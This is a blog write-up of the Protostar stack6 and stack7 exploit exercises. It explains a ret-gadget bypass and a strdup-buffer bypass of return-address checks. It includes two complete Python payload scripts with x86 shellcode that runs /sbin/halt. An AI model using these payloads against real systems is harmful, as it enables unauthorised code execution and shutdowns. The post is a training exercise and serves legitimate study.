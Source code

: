 ```yaml
---
layout: post
title:  "Protostar Exploit Exercises: Stacks Part Three"
---
```


## [stack6](https://exploit-exercises.com/protostar/stack6/)

>###About
>
>Stack6 looks at what happens when you have restrictions on the return address.
>
>This level can be done in a couple of ways, such as finding the duplicate of the payload (objdump -s) will help with this), or ret2libc, or even return orientated programming.
>
>It is strongly suggested you experiment with multiple ways of getting your code to execute here.

Let's have a look at a excerpt from the code.

{% highlight c %}
void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}
{% endhighlight %}

In [my previous post]({% post_url 2016-01-11-protostar-part-two %}), I
used a  return address which  pointed to  somewhere on the  stack (the
stack  in  linux  is  usually  located  around  0xbffff000).  In  this
challenge, that's  no longer  possible since  the function  checks the
return address  & quits if the  address we've provided is  pointing to
somewhere on the stack.

## ROP-solution: Return oriented halting

Even though the C-code does not allow us to jump into our buffer,
there's no protection beyond that point. So what if we jumped to a location,
that jumps to a location?

![Return deeper]({{ site-url }}/assets/post_images/protostar_part3_go_deeper.png)

All we need to do is find a instruction *somewhere* in memory that 
holds a `ret` instruction. And that's the easy part.

After figuring out how much to overwrite, we put two and two together in `payload.py`

{% highlight python %}
# payload.py
from struct import pack

ret    = pack('L', 0x08048508)
buffer = pack('L', 0xbffff76c)
# https://www.exploit-db.com/exploits/37289/
shellcode = '\x31\xc0\x50\x68\x68\x61\x6c'+\
    '\x74\x68\x69\x6e\x2f\x2f\x68\x2f\x2f'+\
    '\x73\x62\x89\xe3\x50\x89\xe2\x53\x89'+\
    '\xe1\xb0\x0b\xcd\x80'

# esp = 0xbffff7bc
# buffer = 0xbffff76c
padding = "A" * (0xbffff7bc-0xbffff76c - len(shellcode))

payload = shellcode + padding + ret + buffer

print(payload)
{% endhighlight %}

`python shellcode.py > shellcode`

All we need to do is find a location *somewhere* in memory that 
holds a `ret` instruction. 

So when the `ret` in `getpath` executes, 4 bytes are popped of the stack
into eip & provided that eip is now pointing at another `ret` instruction,
another 4 bytes are popped of the stack & into eip. Right?

![Yep]({{ site-url }}/assets/post_images/protostar_part3_quite_right.png)

Right.

*note: The `pop` instruction increments the stack-pointer by 4, so we
 need to place the next return address after our initial one.*

There you have it. I might revisit this challenge with the ret2libc
solution later but for now - I've been unable to find the
system-function loaded in via libc in the executable. Looking for it
in gdb only yields `__libc_system`.

![Frowntown]({{ site-url }}/assets/post_images/protostar_part3_no_system.png)

* * *

## [stack7](https://exploit-exercises.com/protostar/stack7/)

> Stack6 introduces return to .text to gain code execution.
>
>The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

The `getpath` function is back, and this time... it's personal.

{% highlight c %}
char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}
{% endhighlight %}

strdup returns the address of the allocated string in the eax register.

We can get around the return-address check if we jump to the buffer
allocated by strdup. Very much like the previous challenge, I used gdb
to set a breakpoint at the `ret` instruction in getpath, took note of the 
following states:

+ The returned address from strdup stored in eax

+ The value of esp before the `ret` instruction executed.

+ The address of the buffer

{% highlight python %}
from struct import pack

shellcode = '\x31\xc0\x50\x68\x68\x61\x6c\x74'+\
    '\x68\x69\x6e\x2f\x2f\x68\x2f\x2f\x73\x62'+\
    '\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b'+\
    '\xcd\x80'
payload = shellcode +\
    'A'*(0x7bc-0x76c - len(shellcode)) +\
    pack('L', 0x804a008)

print(payload)
{% endhighlight %}

![Success]({{ site-url }}/assets/post_images/protostar_part3_ez_stack7.png)

![Happy]({{ site-url }}/assets/post_images/happy_zizek.jpg)

Now onto the Format challenges! :D

Thanks for reading!


